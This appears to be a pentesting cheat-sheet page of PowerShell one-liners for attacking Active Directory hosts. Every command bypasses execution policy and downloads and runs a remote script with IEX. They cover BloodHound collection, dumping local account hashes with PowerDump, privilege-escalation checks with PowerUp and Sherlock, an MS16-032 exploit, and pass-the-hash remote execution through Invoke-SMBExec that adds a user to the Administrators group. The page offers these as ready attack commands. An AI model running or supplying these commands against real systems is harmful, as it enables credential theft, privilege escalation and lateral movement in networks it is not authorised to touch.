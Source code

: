 ```yaml
---
title: Powershell One-Liners
author: asphixie
date: 2023-03-10 20:55:00 +0800
categories: [Active Directory]
pin: true
comments: false
---
```


# PowerShell One-Liners

## Bloodhound : Using ingestors to collect the data and then send it to BloodHound.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1');Invoke-BloodHound"
```

## PowerDump : Dump all local accounts.

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1');Invoke-PowerDump"
```

## PowerUp : Check for privilege escalation.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks"
```

## Sherlock : An old tool to find vulnerabilities on the host. Can be still interesting.

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1’); Find-AllVulns"
```

To exploit one of those vulnerabilities via Sherlock, for example MS16-032 :

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1’); Invoke-MS16-032"
```

## Invoke-SMBExec : Remote command execution by using a hash :
```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString(‘https://github.com/Kevin-Robertson/Invoke-TheHash/raw/master/Invoke-SMBExec.ps1’);"
Invoke-SMBExec -hash HASH -Target HOSTNAME -Domain DOMAIN -Username USERNAME -Command “net localgroup Administrateurs USERNAME /ADD” -verbose
```
